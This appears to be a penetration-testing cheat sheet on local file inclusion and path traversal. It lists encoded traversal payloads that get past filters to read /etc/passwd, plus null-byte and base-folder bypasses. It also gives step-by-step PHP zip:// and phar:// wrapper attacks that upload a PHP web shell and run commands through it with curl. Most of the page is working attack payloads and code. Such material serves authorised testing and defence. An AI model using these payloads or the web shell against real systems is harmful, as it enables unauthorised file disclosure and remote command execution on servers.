 # LFI / Path Traversal

#### We can bypass filters various ways:

* ../../../../etc/passwd
* ....//....//....//....//....//etc/passwd
* `%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd`
* `%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f/etc/passwd`
* `..%c0%af..%c0%af..%c0%af/etc/passwd`
* `..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f..%ef%bc%8f/etc/passwd`



An app may require file name to start with base folder like /var/www/images. We can then try `filename=/var/www/images/../../../etc/passwd` .

An app may require filename to end with expected file extension like .jpg. We can then trye `filename=../../../etc/passwd%00.png` .

### PHP wrappers

{% hint style="info" %}
Its possible to use a .zip file  and use the phar wrapper. Create a .php file with a payload and zip it. Then upload /?page=phar://uploads/payload.zip/payload\&cmd=id&#x20;
{% endhint %}

<details>

<summary>zip://</summary>

Wen upload file is possible

```bash
# Create payload
echo "<?php system($_GET['cmd']); ?>" > payload.php
# Zip zip payload.zip payload.php
zip payload.zip payload.php

# Execute commands
/?page=zip://uploads/payload.zip/payload.php&cmd=id 
# Could be possible without extension
/?page=zip://uploads/payload.zip/payload&cmd=id 
```

</details>

<details>

<summary>phar://</summary>

Uploading files is needed

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

Compile script into .phar file

```php
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Trigger filie

```bash
curl --user-agent "PENTEST" "$URL/?parameter=phar://./shell.jpg%2Fshell.txt&cmd=id"
```

</details>

For more wrappers:

[https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams)

